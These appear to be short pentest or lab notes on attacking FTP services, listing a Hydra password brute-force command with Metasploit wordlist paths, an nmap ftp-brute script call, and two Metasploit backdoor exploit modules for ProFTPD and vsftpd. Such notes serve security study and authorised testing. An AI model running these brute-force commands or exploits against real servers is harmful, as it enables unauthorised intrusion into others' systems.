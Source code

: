 # Hydra

- `hydra -L <userlist> -P <passlist> 192.235.127.3 -t 4 ftp`
- wordlists:
	- /usr/share/metasploit-framework/data/wordlists/common_users.txt
	- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

# Nmap script
- echo "sysadmin" > users
- ftp-brute --script-args userdb=/root/users (nmap --script ftp-brute --script-args userdb=/root/users -p 21 ip)

# Metasploit modules

- exploit/unix/ftp/proftpd_133c_backdoor
- exploit/unix/ftp/vsftpd_234_backdoor

